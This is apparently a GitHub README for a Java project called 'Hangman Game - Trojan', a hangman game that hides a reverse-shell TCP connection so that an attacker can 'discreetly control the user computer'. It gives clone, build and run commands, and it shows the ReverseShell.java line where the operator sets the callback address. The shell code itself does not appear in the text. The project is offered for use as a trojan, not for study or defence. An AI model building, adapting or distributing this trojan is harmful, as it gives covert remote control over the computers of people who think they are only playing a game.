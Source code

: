 # Hangman Game - Trojan 

## Introduction

Welcome to the Hangman Game! This Java Maven project combines the classic hangman game with a hidden TCP connection. While users enjoy playing hangman, a Hacker can discreetly control the user computer.

## Features

- **Classic Hangman Game**: Play the traditional hangman game with a variety of words to guess.
- **TCP Connection**: Connect back to the Hacker.


## Getting Started

### Prerequisites

- Java Development Kit 11 (JDK 11) installed
- Maven installed

### Clone the Repository

```bash
git clone https://github.com/The-Hustler-Hattab/Hangman-Trojan.git
cd hangman-admin  
```
### Build the Project

```bash
mvn clean install  
```


### Run the Game by Clicking on the Jar File or Run the Below

```bash
java -jar target/hangman*.jar
```
### Usage 

``` java
// change the below variable in the file ReverseShell.java
    private static InetSocketAddress addr   = new InetSocketAddress("127.0.0.1", 443);

```
